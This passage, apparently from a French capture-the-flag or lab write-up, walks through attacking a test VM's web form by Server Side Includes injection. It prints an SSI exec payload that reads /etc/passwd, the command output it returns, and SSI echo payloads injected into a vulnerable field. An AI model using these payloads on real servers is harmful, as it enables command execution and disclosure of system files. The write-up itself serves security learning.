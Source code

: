 Le listing de la plupart des dossiers est rendu possible par le fait que l'admin avait placé des *index.html* mais que le *DirectoryIndex* utilise *index.php* (voir fichier de config plus haut).  

Mais ces nouveaux dossiers ne nous apportent rien de plus :(   

Est-ce que l'ancien site tourne toujours ? Pour le savoir il nous suffit de forger l'entête Host (ou ajouter une entrée dans son */etc/hosts*)  

```bash
curl -H "Host: convert.me" http://192.168.1.36/
```

La commande nous retourne le même site, la piste n'est pas bonne.  

Le formulaire *receipt.php* nous redirige après la soumission des données vers *receipt.**shtml***. On va fouiller de ce côté :  

```plain
http://192.168.1.36/index.shtml - HTTP 200 (35 bytes, plain)
http://192.168.1.36/receipt.shtml - HTTP 200 (761 bytes, gzip)
http://192.168.1.36/ssi.shtml - HTTP 200 (296 bytes, gzip)
```

Voilà qui est plus intéressant ! Le fichier *index.shtml* comporte du SSI (*Server Side Includes*) malformé, un indice important qui nous indique de tester de [l'injection de SSI](https://www.owasp.org/index.php/Testing_for_SSI_Injection_(OTG-INPVAL-009)) :  

```html
<--#exec cmd="cat /etc/passwd" -->
```

Ici il manque un point d'exclamation pour que le SSI puisse fonctionner. Le fichier *ssi.shtml* semble quand à lui fonctionner. Un message d'erreur donne le même indice sur les SSI :  

```plain
Hello total 16
-rw------- 1 root root    0 Oct 28 09:04 002f859fefa6d
drwxrwxrwt 2 root root 4096 Oct 28 08:58 VMwareDnD
drwx------ 3 root root 4096 Oct 28 08:59 systemd-private-cd3beb192ebf435d8efd903c82f6d0cc-colord.service-QvCs79
drwx------ 3 root root 4096 Oct 28 08:59 systemd-private-cd3beb192ebf435d8efd903c82f6d0cc-rtkit-daemon.service-gUdddV
drwx------ 3 root root 4096 Oct 28 08:58 systemd-private-cd3beb192ebf435d8efd903c82f6d0cc-systemd-timesyncd.service-7j1dQm
 [an error occurred while processing this directive],
Your IP address is: 192.168.1.6
```

On peut trouver des informations sur les SSI [ici](http://httpd.apache.org/docs/current/howto/ssi.html) et avoir des noms de variables Apache utiles [ici](http://httpd.apache.org/docs/current/expr.html).

On voit que le champ target du formulaire est vulnérable, notamment avec les exemples suivants :  

```html
<!--#flastmod file="ssi.shtml" -->
<!--#echo var="DOCUMENT_NAME" -->
<!--#echo var="SCRIPT_FILENAME" -->
```
